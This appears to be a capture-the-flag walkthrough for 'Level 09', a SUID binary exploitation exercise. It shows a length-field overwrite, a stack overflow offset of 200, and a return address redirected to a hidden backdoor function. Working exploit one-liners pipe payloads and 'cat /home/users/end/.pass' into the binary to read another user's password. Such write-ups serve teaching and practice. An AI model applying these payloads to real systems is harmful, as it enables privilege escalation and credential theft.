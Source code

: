 # Walkthrough - Level 09

The program has SUID permissions from the user `end`, which will allow us to obtain their flag.

# Disassembly

- When checking the security features, we notice that PIE is enabled
- The main calls a function handle_msg which calls two functions: set_username and set_msg
- There is an unused function secret_backdoor in the file that allows making a system call by reading from standard input

# Exploit

The goal is to overwrite the EIP of the handle_msg frame to point to the secret_backdoor function.
In the set_msg function, we read 1024 bytes from standard input but only `*(v1 + 180)` (the value of `v7`) are taken into account.
We notice in set_username that we write 41 bytes from `v1 + 140`. We can therefore rewrite the low byte of `v7` up to a maximum of `0xff` (255).

We then try to see if we can cause a segfault with 255 characters written in the strncpy of set_msg.
```bash
(python -c 'print("\xff" * 41)'; python -c 'print("A" * 255)') | ./level09
```

We successfully cause a segfault, then calculate our offset with the buffer overflow pattern generator and get 200.
We now need to find the address of the secret_backdoor function:
```bash
gdb ./level09
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x88c <secret_backdoor>
```

We then try to enter the secret_backdoor function address after the offset and display the password of `end`:
```bash
(python -c 'print("\xff" * 41)'; python -c 'print("A" * 200 + "\x8c\x08\x00\x00\x00\x00\x00\x00")'; echo "cat /home/users/end/.pass" ) | ./level09
```

This doesn't work because of PIE. The PIE security feature loads the program at a different location each time it runs.
However, we observe that when running the program in gdb, the offset given by PIE is constant. In fact, the randomization offset function given by PIE called ASLR seems to be disabled. The offset is therefore always the same, so we can retrieve the function addresses in gdb during program execution:
```bash
gdb ./level09
(gdb) b main
(gdb) run
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

We can then run the previous command again with our new address:
```bash
(python -c 'print("\xff" * 41)'; python -c 'print("A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo "cat /home/users/end/.pass" ) | ./level09
```
